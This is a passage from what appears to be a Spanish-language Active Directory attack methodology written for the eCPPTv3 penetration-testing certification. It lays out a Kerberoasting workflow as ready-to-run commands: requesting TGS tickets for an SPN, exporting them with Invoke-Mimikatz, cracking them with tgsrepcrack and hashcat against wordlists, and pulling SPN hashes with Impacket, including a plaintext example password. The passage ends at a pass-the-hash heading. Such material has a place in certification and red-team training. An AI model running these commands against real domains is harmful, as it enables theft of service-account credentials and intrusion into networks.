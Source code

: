 **Mostrar todos los tickets de Kerberos en la sesión actual**

```powershell
klist
```

**Pedir TGS Ticket para SPN especifico usando Kerberos**

```powershell
# Agregamos el ensamblado System.IdentityModel
Add-Type -AssemblyName System.IdentityModel

# Crear un objeto de tipo KerberosRequestorSecurityToken
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList “ops/research.SECURITY.local:1434”
```

**Extraer los Kerberos Tickets**

```powershell
# Importar modulo Mimikatz
. .\Invoke-Mimikatz.ps1

# Enumerar todos los vales de Kerberos y exportarlos para su uso posterior
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

**Descifrar la contraseña del ticket de TGS especifico con Tgsrepcrack**

```powershell
python.exe .\kerberoast-Python3\tgsrepcrack.py .\10k-worst-pass.txt .\1-40a10000-student@ops~research.SECURITY.local~1434-RESEARCH.SECURITY.LOCAL.kirbi
```

**Hashcat Descifrar Contraseña**

```shell
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

---

**Impacket ToolSet**

```powershell
impacket-GetUserSPNs domain.local/SVC_TGS

impacket-GetUserSPNs domain.local/SVC_TGS:GPPMyPasswordSecret202$ -request
```

### LATERAL MOVEMENT

[](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#lateral-movement)

#### [[PASS THE HASH]]

[](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#pass-the-hash)
